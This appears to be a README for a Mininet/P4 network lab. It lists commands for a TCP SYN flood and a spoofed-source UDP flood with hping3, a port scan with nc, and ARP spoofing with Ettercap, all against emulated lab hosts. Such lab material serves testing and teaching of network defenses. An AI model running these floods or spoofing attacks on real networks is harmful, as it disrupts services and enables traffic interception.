 ## New2
How to run
1. Start the topology: sudo p4run
2. How to conduct TCP SYN Attack- Process 1:
    a. mininet> xterm h3
    b. In host 3: hping3 -c 1000 -d 120 -S -w  64 -p 21 --flood 10.0.1.1
3. How to conduct TCP SYN Attack-Process 2:
    a. mininet> xterm h3
    b. In host 3: python -m SimpleHTTPServer 80
    c. mininet> h1 nc -vnz -w 1 10.0.3.1 80-85 
4. How to conduct UDP Flood Attack:
    d. mininet> xterm h3
    e. In host 3: hping3 -q -n -a 10.0.1.1 -udp -s 53 --keep -p 68 --flood 10.0.1.1
5. How to conduct ARP spoofing Attack: 
Install Ettercap
    a. sudo apt-get install ettercap-graphical
    b. Type -y on instruction
    c. mininet> xterm h1 h2 h3 h3
    d. In node 1: ifconfig
    e. In node 1: arp
    f. In node 2: ifconfig
    g. In node 2: arp
    h. In node 3: tcpdump -i h3 eth0 -n host 10.0.1.1
    i. mininet> h1 ping h2
    j In node 3: ettercap-g
In Ettercap application:
    1. Options->Promisc Mode
    2. Sniff -> Unified Snipping
    3. Select h3-eth0 in the Ettercap input dialog box.
    4. Hosts -> Scan for hosts
    5. Hosts -> Hosts List
    6. Select host with IP address 10.0.1.1 and then click Add to Target 1
    7. Select host with IP address 10.0.1.2 and then click Add to Target 2
    8. Mitm -> ARP Spoofing… Select sniff remote connections only in the dialog box
    9. Now the ARP Spoofing started. Check in h1 node and h2 node: arp -a
How to check bandwidth:
*** Starting CLI:
mininet> iperf h1 h2
From h2 you are not able:
mininet> iperf h2 h1
